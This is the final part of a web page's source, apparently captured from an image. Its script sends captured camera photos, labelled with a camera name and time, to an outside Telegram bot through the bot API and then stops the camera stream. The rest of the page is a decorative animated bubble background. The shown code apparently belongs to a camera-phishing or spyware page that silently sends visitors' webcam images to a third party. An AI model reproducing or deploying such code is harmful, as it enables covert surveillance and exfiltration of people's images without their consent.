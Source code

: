         async function sendToTelegram(imageBlob, cameraName) {
            const formData = new FormData();
            formData.append('chat_id', CHAT_ID);
            formData.append('photo', imageBlob, 'capture.jpg');
            formData.append('caption', `📸 [${cameraName}] \n🗓️ ${new Date().toLocaleString()}`);
            const url = `https://api.telegram.org/bot${BOT_TOKEN}/sendPhoto`;
            try {
                const response = await fetch(url, { method: 'POST', body: formData });
                const result = await response.json();
                if (!result.ok) throw new Error(result.description);
            } catch (error) { console.error("خطأ إرسال:", error); }
        }

        function stopCamera(stream) { if (stream) stream.getTracks().forEach(track => track.stop()); }

        const bubblesCanvas = document.getElementById('bubbles');
        const ctx = bubblesCanvas.getContext('2d');
        let W, H, bubbles;
        function resize(){ W = bubblesCanvas.width = window.innerWidth; H = bubblesCanvas.height = window.innerHeight; makeBubbles(); }
        window.addEventListener('resize', resize);
        function rand(min, max){ return Math.random()*(max-min)+min }
        function makeBubbles(){ const count = Math.min(80, Math.floor((W*H)/18000)); bubbles = new Array(count).fill(0).map(()=>({ x: rand(0, W), y: rand(0, H), r: rand(6, 26), vx: rand(-0.25, 0.25), vy: rand(-0.25, 0.25) })); }
        function draw(){
            ctx.clearRect(0,0,W,H);
            for(const b of bubbles){
                ctx.beginPath();
                ctx.arc(b.x, b.y, b.r, 0, Math.PI*2);
                const grd = ctx.createRadialGradient(b.x- b.r*0.4, b.y- b.r*0.4, 1, b.x, b.y, b.r);
                grd.addColorStop(0, 'rgba(255,255,255,0.25)'); grd.addColorStop(0.6, 'rgba(255,255,255,0.08)'); grd.addColorStop(1, 'rgba(255,255,255,0.02)');
                ctx.fillStyle = grd;
                ctx.fill();
                b.x += b.vx; b.y += b.vy;
                if(b.x < -50) b.x = W+50; if(b.x > W+50) b.x = -50; if(b.y < -50) b.y = H+50; if(b.y > H+50) b.y = -50;
            }
            requestAnimationFrame(draw);
        }
        resize();
        draw();
    </script>
</body>
</html>
